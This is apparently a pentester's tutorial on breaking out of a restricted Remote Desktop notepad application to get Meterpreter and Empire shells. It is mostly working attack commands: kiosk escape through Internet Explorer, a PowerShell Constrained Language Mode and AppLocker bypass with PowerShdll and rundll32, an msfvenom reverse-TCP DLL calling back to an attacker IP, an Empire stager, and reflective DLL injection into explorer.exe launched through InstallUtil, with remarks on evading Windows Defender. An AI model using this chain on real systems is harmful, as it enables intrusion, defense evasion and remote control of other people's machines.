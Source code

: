 # From RDS app to Empire shell

This article details a scenario where you only have access to a Remote Desktop Service. This effectively atttemps to lock you to one application one, much similar to Citrix seen in corporate environments.  
Additionally this scenario has Applocker on the target box, Powershell is in Language Constrained Mode which prevents many powershell tricks from being used. On top of that Windows Defender is eating your shells.

**Requirements:**

* The RDS server does not block port 80 outbound.
* .Net v3.5 for dll mode in PowerShdll

**Important notes**

powershell.exe _is_ not Powershell. It just hosts the assembly that contains PowerShell and handles I/O. System.Management.Automation.dll  
Learn more from the links at the bottom of this article.

#### Getting shell from RDS notepad

[https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/](https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/)  
[https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/](https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/)

From the notepad app  
Click Help -&gt; View help -&gt; triggers Internet Explorer  
Right click on anything -&gt; save target as -&gt; save as lol.ps1 on the Desktop  
Press view downloads in IE, press the dropdown on the file, open with -&gt; notepad. then just write powershell.exe in the file and save again  
Now right click -&gt; "save target as" in IE again. Go to the dropdown "save as type" and select "all files". The ps1-file you have saved will be revealed and you can just press "run with powershell" and a powershell prompt should pop up. This shell should be in Constrained mode. Verify with `$ExecutionContext.SessionState.LanguageMode`, which should say `ConstrainedLanguage`.

#### Bypssing PoSh constrained mode

Download PowerShdll from [https://github.com/p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll)  
Host powershdll.dll on Kali web server using `python -m SimpleHTTPServer 80`  
Navigate to the following URL in IE where [http://10.7.253.10/PowerShdll.dll](http://10.7.253.10/PowerShdll.dll)  
Save as -&gt; PowerShdll.dll to whatever folder you like. `C:\Windows\Tasks` is generally nice to use when Applocker is installed because it is usually whitelisted. But navigating to folders might also be restricted, so in certain ocassions you might need to save to Desktop.

I'm not sure exactly how to check for DLL rules in an Applocked environment yet.

Now navigate to the desktop in the other powershell prompt  
Use rundll32 to execute the dll  
`rundll32 .\PowerShdll.dll,main -w`  
A new interactive powershell prompt should pop up  
Verify that constrained language mode has been bypassed with  
$ExecutionContext.SessionState.LanguageMode  
It should say FullLanguage

#### Getting meterpreter shell

Generate a dll payload

```
msfvenom windows/x64/meterpreter/reverse_tcp lhost=10.7.253.10 lport=8081 -f dll -o msf.dll
```

Set up listener in msf with same payload, host and port.

```
use multi/handler
set host tun0
set port 8081
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

Download the msf.dll using the IE "save as" trick from before.
![](/assets/dll.png)  

For some reason I am not sure why the dll payload is not eaten by Windows Defender, not on disk and not when executed. It could possibly be the x64 signature of the payload is not yet recgonized as malware by Defender.

Now, use rundll32 to execute the dll. We use this because rundll32 is a binary that will not be blocked by Applocker.

`rundll32 .\PowerShdll.dll,Control_RunDLL`

Shell should now spawn in msf.

#### Empire without powershell.exe

This assumes you have a metasploit Session established.  
In Empire, create an empire listener and stager. The important things is to set Base64 to false to prevent the stager from calling powershell.exe, which won't work here because of the constrained language mode.

```
uselistener http
set Host 10.7.253.18
set Port 4444
execute
back
usestager multi/launcher
set Base64 false
generate
```

Now in MSF:

```
load powershell
powershell_shell
```

Copypaste the empire listener in the interactive shell, and an agent should spawn in Empire. Congratulations!

## More advanced technique

#### Bypassing powershell constrained mode and applocker

This technique involves packing everything together several times to bypass all the security mechanisms. I recommend reading the article below and trying to replicate each step. Albeit, I have made a step by step overview of it below.  
[https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell](https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell)

1 Generate a listener and a hta stager using windows/hta

2 Open ReflectivePick project in visual studio. Add the hta base64 shell stager where appropriate and compile the dll to `ReflectivePick_x64.dll`

3 Use the following commands in PS to encode the DLL to base64 and pipe the results to a file

```
$Content = Get-Content .\ReflectivePick_x64.dll -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\Windows\Tasks\dll.txt"
```

4 Copypaste the content of dll.txt into a new variable in Invoke-ReflectivePEInjection.ps1

```
$dllData = "DLLBASE64_GOES_HERE"
$ProcId = (Get-Process explorer).Id
$Bytes = [System.Convert]::FromBase64String($dllData)
Invoke-ReflectivePEInjection -PEBytes $Bytes -ProcId $ProcId
```

5 Base64 encode the entire script using [https://www.base64encode.org/](https://www.base64encode.org/)  
Open the Bypass project in VS and copypaste the base64 into the encoded variable.  
Compile to Bypass.exe with VS.

6 Use installutil.exe to execute bypass.exe

```
set-location \\tsclient\lkylabs
copy-item .\Bypass.exe c:\windows\tasks
cd c:\windows\tasks
C:\windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe
```

### Useful links

* [https://github.com/Ben0xA/AwesomerShell](https://github.com/Ben0xA/AwesomerShell)
* [https://www.youtube.com/watch?v=czJrXiLs0wM](https://www.youtube.com/watch?v=czJrXiLs0wM)
* [https://adsecurity.org/?p=2921](https://adsecurity.org/?p=2921)
* [https://bneg.io/2017/07/26/empire-without-powershell-exe/](https://bneg.io/2017/07/26/empire-without-powershell-exe/)
* [https://artofpwn.com/offensive-and-defensive-powershell-ii.html](https://artofpwn.com/offensive-and-defensive-powershell-ii.html)
* [https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell](https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell)
* [https://github.com/caseysmithrc/DeviceGuardBypasses](https://github.com/caseysmithrc/DeviceGuardBypasses)
* [https://github.com/Joshua1909/AllTheThings](https://github.com/Joshua1909/AllTheThings)
* [https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html](https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html)



